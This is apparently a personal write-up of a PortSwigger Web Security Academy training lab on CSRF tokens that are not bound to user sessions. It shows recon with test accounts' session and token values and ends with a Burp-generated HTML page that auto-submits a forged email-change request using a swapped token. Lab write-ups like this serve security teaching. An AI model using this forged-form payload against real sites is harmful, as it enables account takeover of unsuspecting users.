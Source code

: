 ```yaml
---
title: 'Lab: CSRF where token is not tied to user session'
tags: [Portswigger Web Security Academy, Web]

---
```


# Lab: CSRF where token is not tied to user session
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system. 
* Goal:  To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You have two accounts on the application that you can use to help design your attack. The credentials are as follows:
`wiener:peter`
`carlos:montoya`

## Background
CSRF token should tied to user session otherwise, it'll exploited by attacker.

## Recon
1. Username: `wiener`
![](https://i.imgur.com/tMOhBba.png)
Session: `l3IjqV4KRDAmncviJTvP80KK3RAHDJLG`
CSRF Token: `u4wMMtIhhUoTlc2LgadJFNRKOZ6bFAZr`

2. Username: `carlos`
![](https://i.imgur.com/I0eaArB.png)
Session: `Goc2H2lmU9Ki7Of4IcOWpE4XFNMWFslR`
CSRF Token: `UGabdiPPbGaTLsSa8vOV6MfBEvi2nGQ3`

3. What if we change session or csrf_token?
![](https://i.imgur.com/jHO6p00.png)
It seems work properly which means the user session didn't tie with unique `csrf_token`

## Exp
The csrf token should be altered to another token that was intercepted by Burp Suite which means this token haven't sent it. So, we can altered a package to forge another user to achieve CSRF.
Exploit Payload:
```javascript=
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a5200320345733f806803640046007d.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="danger&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="u4wMMtIhhUoTlc2LgadJFNRKOZ6bFAZr" />
    </form>
    <script>
          document.forms[0].submit();
    </script>
  </body>
</html>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/zSm4Dyi.png)
:::

## Reference
[Lab: CSRF where token is not tied to user session - write up](https://www.cnblogs.com/Zeker62/p/15188614.html)